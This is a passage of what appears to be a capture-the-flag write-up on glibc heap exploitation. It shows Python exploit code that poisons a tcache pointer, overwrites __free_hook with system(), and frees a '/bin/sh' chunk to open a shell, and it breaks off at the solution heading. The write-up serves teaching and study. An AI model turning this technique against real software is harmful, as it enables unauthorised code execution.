 ```python
__free_hook = libc.sym.__free_hook
print(f'__free_hook @ {hex(__free_hook)}')

alloc(1, 0x70, data=p64(libc.sym.__free_hook-0xb))
copy(1, 7) # copy from existing chunk into freed one
```

After running this code, we can observe we have successfully poisoned a tcache pointer.

<img src="./assets/bins2.png" align="center" />

Now, following one allocation that will not server any purpose, the next request will give us a chunk on `__free_hook - 0xb`. After 11 bytes of padding, we can overwrite the hook with `system()`.

```python
alloc(2, 0x80) # get first chunk out of freelist
alloc(3, 0x80, data=b'a'*0xb + p64(libc.sym.system)) # overwrite __free_hook
```

`free()` is called with a pointer a chunk as an argument, and that argument will be passed to the `__free_hook`. So, by freeing a chunk that has `/bin/sh\x00` written on it, the hook will call `system("/bin/sh\x00")` and pop a shell.

```python
alloc(4, 0x80, data=b'/bin/sh\x00') # create chunk with /bin/sh
delete(4)                           # free that chunk - hook calls system("/bin/sh")
r.recv(1024) # cleanup - not needed

print('** SHELL **')
r.interactive()
```

## Solution

And there we have it:
